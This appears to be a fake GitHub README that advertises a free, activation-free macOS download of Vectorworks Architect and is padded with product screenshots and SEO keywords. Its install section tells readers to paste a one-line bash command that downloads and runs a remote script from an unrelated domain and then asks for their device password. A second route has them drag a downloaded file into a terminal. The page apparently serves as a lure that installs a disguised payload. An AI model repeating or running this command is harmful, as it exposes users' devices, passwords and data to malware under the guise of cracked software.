 # Vectorworks Architect for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://vectorworks-architect-download-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🏗 Full BIM modeling and architectural tools  
📐 Advanced 2D/3D drafting workspace  
🎨 Interior, landscape, and building visualization  
🔌 Integration with plugins and file export options  
🛠 No login, online activation, or serial number required

## 🖼 Preview

![Drafting and Modeling Interface](https://res.cloudinary.com/vectorworks/image/upload/q_auto/f_auto/article/blog/construction-docs-vectorworks-architect/Section5.png)  


![Hybrid BIM/CAD View](https://res.cloudinary.com/vectorworks/image/upload/f_auto,q_auto/v1694470668/pages/architect/heros/hero-arch-mid-2880x1450.png)  


![Vectorworks Architect 2025 UI](https://www.nemetschek.com/sites/default/files/2024-09/2025-product-shot-arch-no-wordmark.jpg)  


### 🔎 SEO Keywords

`vectorworks mac`, `vectorworks mac download`, `macbook vectorworks`, `vector works mac`,  
`vectorworks for mac`, `vectorworks for macbook air`, `vectorworks free mac`, `vectorworks mac os`,  
`vectorworks download for mac`, `vectorworks on mac`, `vectorworks osx`, `vectorworks software mac`,  
`vectorworks pro mac`, `vectorworks 3d mac`, `vectorworks architect mac`, `vectorworks mac m1`,  
`vectorworks for macbook pro`, `vectorworks student mac`, `vectorworks mac free trial`, `vectorworks design mac`,  
`vectorworks rendering mac`, `vectorworks for mac download`, `vectorworks for mac os x`, `vectorworks app mac`, `mac vectorworks full`
